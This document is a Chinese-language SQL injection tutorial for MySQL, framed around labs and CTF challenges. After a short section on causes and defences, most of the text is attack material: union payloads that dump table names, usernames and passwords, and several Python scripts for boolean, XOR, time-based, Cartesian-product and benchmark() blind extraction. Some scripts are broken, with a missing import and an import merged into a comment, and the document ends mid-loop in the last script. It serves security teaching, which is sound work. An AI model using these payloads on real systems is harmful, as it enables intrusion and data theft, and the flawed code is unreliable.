






# sql注入漏洞

## 漏洞成因：

应用为了和数据库进行沟通完成必要的**管理和存储工作**，必须和数据库保留一种**接口**。 目前的数据库一般都是提供api以支持管理，应用使用底层开发语言如Php，Java，asp，Python与这些api进行通讯。对于数据库的操作，目前普遍使用一种SQL语言（Structured Query  Language语言，SQL语言的功能包括增删查改等，是一个综合的、通用的关系数据库语言，同时又是一种高度**非过程化**的语言，只要求用户指出做什么而 不需要指出怎么做），SQL作为**字符串**通过API传入给数据库，数据库将查询的结果返回，数据库自身是无法分辨传入的SQL是合法的还是不合法的，它完全 信任传入的数据，**如果传入的SQL语句被恶意用户控制或者篡改，将导致数据库以当前调用者的身份执行预期之外的命令并且返回结果，导致安全问题。** 那么恶意用户如何才能控制传入的SQL语句呢？我们知道，传入的SQL是以字符串的方式传入的，这个字符串由应用生成，那么如果应用生成这个字符串的方式不对就可能导致问题，譬如考虑如下的功能：

```plain
$sql="select * from members where userid=".$_GET[userid];

$sb->query($sql);
```

这段代码的逻辑是根据用户请求的Userid进入数据库查询出不同的用户并且返回给用户，可以看到最终传入的字符串有一部分是根据用户的输入来控制的，一旦用户提交`poc.php?userid=1 or 1=1`最终进入程序之后传入数据库的逻辑将是

```plain
$sb->query("select * from members where userid=1 or 1=1");
```

那么就会出现违背设计者初衷而非法查询出当前表所有数据的结果，因此用户完全可以根据传入的内容来控制整个SQL的逻辑，实现间接控制和管理数据库的目的，**这种命令（SQL语句）和数据（用户提交的查询）不分开的实现方式导致了安全漏洞的产生。**  由于不同的开发语言可能对api进行了不同的封装，并且各种语言内部对数据的校验会有不同的要求，譬如**java和python属于变量强类型**并且各种开发 框架的流行导致出现SQL注射的几率较小，**php属于弱类型**不会对数据进行强制的验证加上**过程化的程序编写思路**导致出现注射的几率会较大。

## 攻击方式概览

通过典型的SQL注入漏洞，黑客是可以根据所能控制的内容在SQL语句的上下文导致不同的结果的，这种不同主要体现在不同的**数据库特性上和细节上**。同时，**后端的数据库的不同导致黑客能利用SQL语句进行的操作也并不相同**，因为很多的数据库在标准的SQL之外也会实现一些自身比较**特别的功能和扩展**，常见的有**Sqlserver的多语句查询**，**Mysql的高权限可以读写系统文件**，**Oracle经常出现的一些系统包提权漏洞**。 即使一些SQL注入本身无法对数据本身进行一些高级别的危害，譬如一些数据库里可能没有存储私密信息，利用SQL查询的结果一样可能**对应用**造 成巨大的灾难，因为应用可能将从数据库里提取的信息做一些其他的比较高危险的动作，譬如进行**文件读写**，这种本身无价值的数据和查询一旦被应用本身赋予较高 的意义的话，可能一样导致很高的危害。  评估一个SQL注射的危害需要取决于注射点发生的SQL语句的上下文，SQL语句在应用的上下文，应用在数据库的上下文，综合考虑这些因素来评估一个 SQL注射的影响，在无上述利用结果的情况下，**通过web应用向数据库传递一些资源要求极高的查询将导致数据库的拒绝服务**，这将是黑客可能能进行的最后的 利用。

## 防范修复方法

一般防范方法：

-  单引号闭合可控变量，并进行相应的转义处理 
-  尽量使用预编译来执行SQL语句 
-  采用白名单机制/完善黑名单 
-  安装WAF防护软件 
-  拒绝不安全的编码转换，尽量统一编码 
-  关闭错误提示
   了解根源的防范方案： 

由于输入的来源太过广泛，可能来自于数据库，HTTP请求，文件或者其他的数据来 源，较难对所有进入的数据在各种场景下进行有效的过滤。事实上最根源的不是数据，而是我们使用数据的方式，最为彻底的修复一定要查找最为彻底的根源，我们可以看到最后的根源在于**对数据和指令的不分离**，所以在修复的时候应该**极力将数据和指令分离**。目前较为提倡的，同时在各种数据库操作框架里体现的方式就是**以填充模板的方式来代替传统的拼接的方式进行数据库查询**，**譬如：**

```plain
$SqlTemplate="select * from members where userid={userid|int}";

$sb->PreSql($SqlTemplate,$_GET['userid']);
```

模板里有关数据及数据自身意义的描述，**PreSql方法**将实现**将模板和数据安全的转换为SQL语句的功能**，以保障最终的安全的实现。

## **开始学习注入（以Mysql注入为例）**

### 注释：

| 单行注释 | 单行注释             | 单行注释 | 多行(内联)注释 |
| -------- | -------------------- | -------- | -------------- |
| `#`      | `-- x //x为任意字符` | `;%00`   | `/*任意内容*/` |

### **了解Mysql数据库**

1.  mysql可以管理 **多个数据库** ，一个数据库可以包含 **多个数据表** ，而一个数据表有含有 **多条字段** ，一行数据正是**多个字段同一行**的一串数据。 
2.  Mysql使用最为广泛，Mysql数据库本身的权限极高，作为应用可以对本机进行文件读写，可以进行提权等。 
3.  

.  5.0以下是多用户单操作

· 5.0以上是多用户多操做


在**MySQL5.0以下**，没有information_schema这个数据库，无法列表名，列名等，只能暴力猜解，或者采用后面会提到的无列名注入之类的方式加以利用。

在**MySQL5.0以上**，MySQL中默认添加了一个名为 information_schema 的数据库，该数据库中的表都是只读的，不能进行更新、删除和插入等操作，也不能加载触发器，因为它们实际只是一个视图，不是基本表，没有关联的文件.

## 注入方式

### 联合查询

#### 相关知识

`UNION`可以将前后两个查询语句的结果拼接到一起，但是会自动去重。

`UNION ALL`功能相同，但是会显示所有数据，不会去重。

具有类似功能的还有`JOIN` https://blog.csdn.net/julielele/article/details/82023577

但是是一个对库表等进行连接的语句，我们在后续会提到利用它来进行无列名注入。

#### 注入流程：

1.判断是否存在注入，注入的类型（数字，字符等），猜测后端语句闭合方式，初步在心里形成简单绕过思路

```sql
?id=1' 
?id=1" 
?id=1') 
?id=1") 
?id=1' or 1#
?id=1' or 0#
?id=1' or 1=1#
?id=1' and 1=2#
?id=1' and sleep(5)#
?id=1' and 1=2 or ' 
?id=1\
```

2.用**二分法**等加上order/group by 语句拼接数字，根据页面判断，确定字段数。

或者在上述被ban的情况下，采用union select 联合查询，在其后不断加数字，直到不报错也可确定字段数（**联合查询前后字段数不一致会导致报错**）

3.确定回显字段位置，采用特异性原理，用不同的记号如数字等标记不同字段位置，根据回显情况可确定可利用位置。

注：**· 页面可能进行的是单行输出，从而导致我们标记的显示位无法进行回显，此时，只需要使前方原回显位置查询结果为空即可，如置零，置负，置极大数皆可。**

4.找到回显字段后即可开始查询

```sql
 1. 获取当前数据库名
 -1' union select 1,2,database()--+
2.获取当前数据库下的表名
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+

-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3--+
3.获取表中字段名
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+

-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3--+
4.获取数据
-1' union select 1,2,group_concat(id,0x7e,username,0x7e,password) from users--+

-1' union select 1,(select group_concat(id,0x7e,username,0x7e,password) from users),3--+
```

确定联合查询的字段数->确定联合查询回显位置->爆库->爆表->爆字段->爆数据  即是我们的一般联合查询sql注入数据库的流程。

### 盲注

SQL  Injection（Blind），即SQL盲注，与一般注入的区别在于，一般的注入攻击者可以直接从页面上看到注入语句的执行结果，而盲注时攻击者通常 是无法从显示页面上获取sql语句的执行结果，甚至连注入语句是否执行都无从得知，因此盲注的难度要比一般注入高。目前网络上现存的SQL注入漏洞大多是 SQL盲注。

核心：利用**逻辑代数连接词/条件函数**，让页面**返回的内容/响应时间**与正常的页面不符。

#### *布尔盲注：*

对于基于布尔的盲注，可通过构造真or假判断条件（数据库各项信息取值的大小比较，  如：字段长度、版本数值、字段名、字段名各组成部分在不同位置对应的字符ASCII码...），  将构造的sql语句提交到服务器，然后根据服务器对不同的请求返回不同的页面结果  （True、False）；然后不断调整判断条件中的数值以逼近真实值，特别是需要关注响应从True<-->False发生变化的转折点。

首先通过页面对于永真条件`or 1=1`与永假条件`and 1=2`的返回内容是否存在差异进行判断是否可以进行布尔盲注。

如：`select * from users where username=$username`，其作用设定为*判断用户名是否存在*。

通常仅返回**存在/不存在**，两个结果。

这时候我们就不能使用联合查询法注入，因为页面不显示SQL语句返回的内容，只能使用**盲注法/报错注入法**来注出数据。

我们在将语句注入成：`select * from users where username=$username or (condition)`

若后边拼接的条件为真的话，那么整条语句的where区域将变成**永真**条件。

那么，即使我们在$username处输入的用户名为一个铁定不存在的用户名，那么返回的结果也仍然为存在。

利用这一特性，我们的condition为：length(database())>8 即可用于判断数据库名长度

除此之外，还可：ascii(substr(database(),1,1))<130 用二分法快速获取数据(逐字判断)

payload如下：

```sql
select * from users where username=nouser or length(database())>8
select * from users where username=nouser or ascii(substr(database(),1,1))<130
```

还用到了各种运算符，`<`，`>`，`=`当然不必多提，但是在下面POST的方式中用到了异或符号`^`，这里其实是一种异或注入的方法，***当我们在尝试SQL注入时,发现union,and被完全过滤掉了,就可以考虑使用异或注入。***

异或运算规则:
`1^1=0 0^0=0 0^1=1`
`1^1^1=1 1^1^0=0`  `0^0^0=0`
构造payload:`'^ascii(mid(database(),1,1)=98)^0`

注意这里会多加一个^0或1是因为在盲注的时候可能出现了语法错误也无法判断,而改变这里的0或1,如果返回的结果是不同的,那就可以证明语法是没有问题的.

然后通过python脚本等工具进行自动化注入（手工操作，emmmmm...工作量有点多了，hahahha）

下面给出常用的布尔盲注脚本。

-  **GET 型注入：** 

```python
import requests
url = "http://127.0.0.1/sqli-labs/Less-8/?id=1'"

cookies = {       # 如果目标网站要事先登录，就加上cookies
    "PHPSESSID": "xxxxxxxxx"
}
flag = ''
for i in range(1,49):
    time.sleep(0.06)
    low = 28
    high = 128
    mid = (low+high)//2
    while low < high:
        # payload1 = url + " and ascii(substr(database(),{},1))>{}%23".format(i, mid)
        # payload2 = url + " and ascii(substr((select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{}%23".format(i, mid)
        # payload3 = url + " and ascii(substr((select 1,2,group_concat(column_name) from information_schema.columns where table_name=users),{},1))>{}%23".format(i, mid)
        payload4 = url + " and ascii(substr((select group_concat(username,0x7e,password) from users where id = 15),{},1))>{}%23".format(i, mid)
        res = requests.get(url=payload4)
        time.sleep(0.04)
        if 'You are in' in res.text:      # 为真时，即判断正确的时候的条件
            low = mid+1
        else:
            high = mid
        mid = (low+high)//2
    if(mid == 28 or mid == 127):
        break
    flag = flag+chr(mid)
    print(flag)
```

-  **POST 型注入：** 

```python
import requests
import time
url = 'http://ff5b2186-703f-4597-91c3-03dc164e80c7.node4.buuoj.cn:81/index.php'
flag = ''
for i in range(1, 250):
   time.sleep(0.06)   #两处时间延迟尽量加上，否则可能触发网站反爬虫机制
   low = 33
   high = 130
   mid = (low+high)//2
   while(low<high):
       #payload = '1^(ascii(substr(database(),{0},1))={1})#'.format(i,mid)
       payload = "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
       datas = {
                     "id":payload
                }
       res = requests.post(url=url,data=datas)
       time.sleep(0.04)

       if 'Hello' in res.text:      # 为真时，即判断正确的时候的条件
           low = mid+1
       else:
           high = mid
       mid = (low+high)//2
   if (chr(mid) == " "):
       break
   flag = flag+chr(mid)
   print(flag)
```

不能当脚本小子，我们要掌握脚本的编写思路！！！

首先，我们先分析脚本的思路，脚本利用了request库来发送请求，同时定义了一个flag字符串用来储存flag。然后写了一个for循环，封 顶跑250遍，然后定义了low和high，这里根据的是ASCII码中的打印字符，定义了中间值，因为一会儿要使用的是**二分法**，当 low<high时进入while循环，执行payload是否大于mid的判断，这里GET和POST略有区别，POST传入的键值对，利用 requests.post方法进行请求，GET直接把Payload拼接在url后面进行requests.get方法即可，然后根据我们判断真假的方 式写一个if循环，这里的res.text是返回数据，可以先写个简单脚本看一下该怎么从其中判断真假，如果为真low=mid+1，然后再取中间值，如 果为假则high=mid然后取中间值，直到low大于high就能确定出该位置的ASCII码了，然后最下面的if循环是排除掉在两端的特殊情况，然后 每次循环打印一次flag，有时候可能还要设置延时，这里没有管。

##### 利用异或的盲注

```python
?id=0'^1--+
?id=0'^0--+
?id=0'^(ascii(substr(database(),1,1))>1)--+
?id=0'^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)=database()),{0},1))={1})--+
```

##### 利用order by的盲注

- **该方法只适用于表里就一行数据的时候。**

如果注入的时候没有报错，我们又不知道列名，在无列名注入，即通过使用`union`语句来对未知列名进行重命名的形式绕过，或通过使用`join using()`报错注入出列名被ban之后，就只能用 order by 盲注了。当然，在 **过滤了括号** 的时候，order by 盲注也是个很好的办法。

order by  n 的主要作用就是让查询出来的数据根据**第n列**进行排序（默认升序），我们可以**使用order by排序比较字符的 ascii 码大小，从第⼀位开始比较，第⼀位相同时比较下⼀位**。

利用方式参见如下测试：

```plain
mysql> select * from admin where username='' or 1 union select 1,2,'5' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | 2        | 5                                |
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)

mysql> select * from admin where username='' or 1 union select 1,2,'6' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
|  1 | 2        | 6                                |
+----+----------+----------------------------------+
2 rows in set (0.01 sec)

mysql> select * from admin where username='' or 1 union select 1,2,'51' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | 2        | 51                               |
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)

mysql> select * from admin where username='' or 1 union select 1,2,'52' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
|  1 | 2        | 52                               |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)
```

通过逐位判断便可得到`password`

这种方法运用的情况比较极端一些，如布尔盲注时，字符截取/比较限制很严格。例子：

```plain
select * from users where (select 'r' union select user() order by 1 limit 1)='r'
```

实际上此处是利用了`order by`语句的排序功能来进行判断的。若我们想要查询的数据开头的首字母在字母表的位值比我们判断的值要靠后，则`limit`语句将不会让其输出，那么整个条件将会成立，否之不成立。

利用这种方法可以做到不需要使用`like、rlike、regexp`等匹配语句以及字符操作函数。

再举个例子：

```plain
select username,flag,password from users where username='$username;'
```

页面回显的字段为：username与password，如何在`union`与`flag`两单词被拦截、无报错信息返回的情况下获取到用户名为`admin`的flag值？

使用`order by`可轻松盲注。payload：

```plain
select username,flag,password from users where username='admin' union select 1,'a',3 order by 2
```

与之前的原理相同，通过判断前后两个select语句返回的数据前后顺序来进行盲注数据

参考脚本

```python
import requests
# 定义一个flag取值的一个“范围”
dic = "1234567890qwertyuioplkjhgfdsazxcvbnmQWERTYUIOPLKJHGFDSAZXCVBNM_!@#$%^&*"
# 之所以不定义为空，而是“^”，是为了从头开始匹配
flag = "^"
# 目标url，先传“|1”，获取其数据的排列内容，作为一个对比的基准
url1 = "xxxxxxxxxxxxxx/index.php?x=|1"
content1 = requests.get(url1).content
# 这个flag的长度被定义为了50个字符长度
for i in range(50):
    # 从定义的dic中挨个取1字符，拼凑payload
    for letter in dic:
        payload = flag + letter
        #该url最后的“}%2b1”-->"}+1"
        url2 = "xxxxxxxxxxxxxx/index.php?x=|{select (select flag from flag表) regexp "+"'"+ payload +"'"+"}%2b1"
        print(url)
        # 获取实际注入后的排列内容
        content2 = requests.get(url2).content
        # 如果不相等，即为flag内容（为什么是不相等，而不是相等，因为在url2的最后又“+1”，即匹配成功则是“?dir=|2”，匹配不成功则是“?dir=|1”）
        if(content1 != content2):
            flag = payload
            print(flag)
            break
```


#### *时间盲注：*


通过判断页面**返回内容的响应时间差异**进行条件判断。


通常可利用的产生时间延迟的函数有：***sleep()、benchmark()***，还有许多进行**复杂运算的函数**也可以当做延迟的判断标准、**笛卡尔积合并数据表、GET_LOCK双SESSION产生延迟**等方法。


如上述例子：**若服务器在执行永真/永假条件并不直接返回两个容易区分的内容时，利用时间盲注**或许是个更好的办法。


在上述语句中，我们拼接语句，变成：


```sql
select * from users where username=$username (and | or) if(length(database())>8,sleep(5),1)
```


如果数据库名的长度大于8，那么if条件将执行sleep(5)，那么此条语句将进行延迟3秒的操作。


若小于或等于8，则if条件直接返回1，并与前边的逻辑连接词拼接，无延迟直接返回。通常的响应时间在0-1秒之内，与上种情况具有很容易区分的结果，可做条件判断的依据。


**注：无if和case的解决办法**


假设`if`和`case`被ban了，又想要根据condition的真假来决定是否触发`sleep()`，可以将condition整合进`sleep()`中，做乘法即可:

```sql
sleep(5*(condition))
```

如果condition为真则返回1，`5*(condition)`即`5*1`为5，延时5秒；如果condition为假则返回0，`5*(condition)`即`5*0`为0，延时0秒。

**写脚本的技巧**

很多人喜欢这样写脚本：

```python
start_time = int(time.time())
requests.get(url)
end_time = int(time.time())
if end_time - start_time > 3: # 用开始时间和结束时间做差
    print("延时发生了，注入成功")
```

这其实非常不好！因为我们发现了除了`sleep`其他基本都不太能精准控制延时时长，这样写脚本就是：你延时多久我就等你多久。太慢了！如果一次延时要一个小时，你也要等他一个小时吗？很明显不太明智，等你注完黄瓜菜都凉了。

正确的写延时盲注脚本的方法应该是：

```python
try:
    requests.get(url, timeout=3)
except:
    print("延时发生了，注入成功")
```


我们利用`timeout=3`设置了一个3秒的超时，如果超时会抛出Exception。这样写代码的好处是：就算它要延时一年，我们也就等他3秒钟，然后就开始下一轮循环了，不用陪着MySQL延时，大大提高了脚本的效率。

下面给出脚本

GET型的时间盲注脚本

```python
import requests
import json
import time

url = "http://6243abfb-3366-401c-aba0-7d770cb425c1.challenge.ctf.show/index.php?action=check&password=1&username=1"
flag = ''
proxies = {
    "http": "http://127.0.0.1:8080"#出错找不到原因的时候，不妨写个代理，抓包看看
}
for i in range(1,250):
   low = 32
   high = 128
   mid = (low+high)//2
   while(low<high):
       payload = url+"') union select if((ascii(substr((select group_concat(flag) from flag),{0},1))>{1}),sleep(3),1)-- ".format(i,mid)
       try:
            requests.get(url=payload,timeout=1,proxies=proxies)  # 设置请求延时时限，上面休眠3秒，因此这里设置时限1秒，超时就丢弃，不等它跑完，提速
       except:
            low = mid+1
       else:
           high = mid
       mid = (low+high)//2
   if(mid ==32 or mid ==127):
       break
   flag = flag+chr(mid)
   print(flag)
```

当然还有POST型的，

```python
import requests
url = 'xxxxxxxxxxxxxxx'
flag = ''
for i in range(1,250):
   low = 32
   high = 128
   mid = (low+high)//2
   while(low<high):
       payload = "1' and if((ascii(substr(database(),{0},1))>{1}),sleep(5),1)-- ".format(i,mid)
       datas = {
                     "id":payload
                }
       try:
           requests.post(url=url,data=datas)
       except:
           low = mid+1
       else:
           high = mid
       mid = (low+high)//2

   if(mid ==32 or mid ==127):
       break
   flag = flag+chr(mid)
   print(flag)
```

时间盲注在CTF比赛和平时生产环境中都是比较常见的，但是当我们常⽤的函数被过滤的话，那该怎么办呢？还有以下几种时间盲注方式。

##### 笛卡尔积延时盲注

`count(*)` 后面所有表中的**列笛卡尔积数**，**数量越多越卡**，就会有延迟，类似之前某比赛pgsql的延时注入也可以利用此来 **打时间差**，从而达到延时注入的效果：

```sql
mysql> SELECT count(*) FROM information_schema.columns A, 
information_schema.columns B, information_schema.tables C;
+-----------+
| count(*)  |
+-----------+
| 113101560 |
+-----------+
1 row in set (2.07 sec)

mysql> select * from ctf_test where user='1' 
and 1=1 and (SELECT count(*) FROM information_schema.columns A, 
information_schema.columns B, information_schema.tables C);
+------+-----+
| user | pwd |
+------+-----+
| 1    | 0   |
+------+-----+
1 row in set (2.08 sec)
```


得到的结果都会有延迟。这里选用`information_schema.columns表`的原因是其内部数据较多，到时候可以根据实际情况调换。


那么我们就可以使用这个原理，并配合if()语句进行延时注入了，payload 与之前相似，类似如下：


```sql
admin' and if(ascii(substr((select database()),1,1))>1,
(SELECT count(*) FROM information_schema.columns A,
information_schema.columns B, information_schema.tables C),0)#

[OUTPUT:]
HTTP/1.1 504 Gateway Time-out    # 有很长的延时, 以至于Time-out了
```


给出一个笛卡尔积延时注入脚本：


```python
import requests
url = 'xxxxxxxxxxx'
flag = ''
for i in range(1,250):
   low = 32
   high = 128
   mid = (low+high)//2
   while(low<high):
       payload = "' or if((select ascii(substr((select password from user where username='admin'),%d,1)))>%d,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),1)#" % (i, mid)
       datas = {
                "username":"admin",
                "password": payload
        }
       res = requests.post(url=url,data=datas,timeout=None)    # 不限制超时

       if '504 Gateway Time-out' in res.text:      # 为真时，即判断正确的时候的条件
           low = mid+1
       else:
           high = mid
       mid = (low+high)//2
   if(mid ==32 or mid ==127):
       break
   flag = flag+chr(mid)
   print(flag)
```


##### 基于benchmark()函数的延时盲注


benchmark()函数是MySQL的一个内置函数，用于测试函数或者表达式的执行速度，当sleep函数被ban时，该函数明显是一个不错的代替选择。
其运行返回值都是0，仅仅会执行显示时间。


用法：**benchmark(重复次数, 执行的函数)**


例如：将select database()执行100000000次，显示耗时0.52sec


```sql
select benchmark(100000000,(select database()))
```


我们来看看在盲注利用时的相关特性：


1.  **无论benchmark()内的函数或表达式语句执行结果为True、False、Null，他都会正常执行。** 
2.  **仅支持查询单行单列的结果，如果存在单行单列的执行结果，则可以正常执行，反之则报错，执行失败。** 
3.  **当benchmark()内的语句运行失败时，benchmark同样执行失败。** 


**结合上面三个特性，我们可以利用benchmark函数判断我们查找的信息是否存在（表名、列名、字段名等），可以从是否有延时来验证数据库中是否有我们要查找的信息，效果上约等于sleep()函数，要是再配合上暴力破解那岂不是美滋滋。**


```sql
http://127.0.0.1/?id=1 and if(ascii(substring((database()),1,1))=115,(select benchmark(10000000,md5(0x41))),1) --+    //判断数据库名第一个字符是否为 s

http://127.0.0.1/?id=1 and if(length(database())=6,(select benchmark(10000000,md5(0x41))),1) --+     //判断数据库名长度是否为 6
```


给出基于benchmark()函数 的时间盲注脚本：


```python
#author:windy_2import requests
urlx = 'http://127.0.0.1/?id= 1 and if((substr((select database()),'
payloads = 'qwertyuiopasdfghjklzxcvbnm{}_0123456789'

def guess_column(table):
    string = ''
    extend = 0
    list = []
    length2 = 0
    num = []
    num1 = []
    url1 = 'http://127.0.0.1/?id= 1 and if(((select count(column_name) from information_schema.columns where table_name=\''+ table + '\')='
    url2 = 'http://127.0.0.1/?id= 1 and if((substr((select column_name from information_schema.columns where table_name=\'' + table + '\' limit '
    url3 = 'http://127.0.0.1/?id= 1 and if(((select length(column_name) from information_schema.columns where table_name=\'' + table + '\' limit '
    url4 = 'http://127.0.0.1/?id= 1 and if(((substr((select '
    url5 = 'http://127.0.0.1/?id= 1 and if(((select count('
    url7 = 'http://127.0.0.1/?id= 1 and if(((select length('
    for i in range(50):                                               #获取字段数量
        url = url1 + str(i) + '),benchmark(1000000,md5(\'test\')),NULL); %23'
        r = requests.get(url)
        print(url)
        time = r.elapsed.total_seconds()
        print(time)
        if time > 1.5:
            extend = i
            length2 = i
            break
    for k in range(extend):                                 
        st = ''
        extend1 = 0
        for m in range(100):
            url = url3 + str(k) + ',1)=' + str(m) + '),benchmark(1000000,md5(\'test\')),NULL); %23'       #获取字段长度
            r = requests.get(url)
            if time > 1.5:
                extend1 = m
                break
        for i in range(1,extend1+1):         #获取字段
            for payload in payloads:
                url = url2 + str(k) + ',1),' + str(i) + ',1)=\'' + payload + '\'),benchmark(1000000,md5(\'test\')),NULL); %23'
                r = requests.get(url)
                time = r.elapsed.total_seconds()
                if time > 1.5:
                    print(url)
                    st += payload
                    break
        list.append(st)
        num1.append(st)
    length = 0
    for i in range(1,10000):                 #获取记录数量
        url = url5 + str(num1[0]) + ') from ' + table + ')=' + str(i) + '),benchmark(1000000,md5(\'test\')),NULL); %23'
        print(url)
        r = requests.get(url)
        time = r.elapsed.total_seconds()
        if time > 1.5:
            length = i
            break
    for column in list:
        str1 = ''
        for i in range(length):               
            length1 = 0
            url6 = url4 + str(column) + ' from ' + table + ' limit ' + str(i)
            for k in range(100):                  #获取记录长度
                url = url7 + str(column) + ') from '+ table + ' limit ' + str(i) + ',1)=' + str(k) + '),benchmark(1000000,md5(\'test\')),NULL); %23'
                r = requests.get(url)
                time = r.elapsed.total_seconds()
                if time > 1.5:
                    print(url)
                    length1 = k
                    break
            for n in range(1,length1+1):              #获取记录
                for payload in payloads:
                    url = url6 + ',1),' + str(n) + ',1))=\'' + str(payload) + '\'),benchmark(1000000,md5(\'test\')),NULL); %23' 
                    r = requests.get(url)
                    time = r.elapsed.total_seconds()
                    if time > 1.5:
                        print(url)
